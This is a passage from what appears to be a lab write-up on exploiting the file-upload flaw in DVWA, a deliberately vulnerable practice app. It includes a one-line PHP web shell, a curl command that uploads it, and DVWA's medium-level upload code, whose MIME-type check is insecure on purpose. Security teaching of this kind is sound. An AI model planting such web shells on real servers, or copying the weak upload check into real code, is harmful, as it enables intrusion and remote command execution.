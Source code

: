 
### 2️⃣ Exploitation Phase: Manual or Automated

```markdown
🔨 Tool Used: Burp Suite, curl, browser upload  
🔧 Setup: Use the form to upload a file named `shell.php` with a payload like `<?php system($_GET['cmd']); ?>`  
🔁 Payload: `curl -F "uploaded=@shell.php" http://dvwa.local/vulnerabilities/upload/`  
🎯 Success Indicator: File appears in `/hackable/uploads/` and can be accessed directly  
📸 Screenshot: 📸 shell.php uploaded successfully
```

---

### 4️⃣ Risk & Real-World Impact

```markdown
🧠 Exploit Impact | 🎯 Description  
---|---  
Remote Code Execution | Uploading `.php` files allows server-side command execution  
Web Shell Access | Attackers can maintain persistent access to the server  
Pivot to Internal Network | May be used to exploit internal services  
```

---

### 5️⃣ 🚧 Mitigation Measures (Secure Coding)

```markdown
🚫 Vulnerability | ✅ Mitigation  
---|---  
No file validation | Restrict to specific MIME types and file extensions  
Execution of uploaded code | Store files outside web root or rename on upload  
No size validation | Limit maximum upload size via both frontend and backend  
Missing sanitization | Sanitize filenames and use random hashes as names  
```

---

## 🔢 Input Code – MEDIUM Security Level

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            $html .= '<pre>Your image was not uploaded.</pre>';
        }
        else {
            $html .= "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
```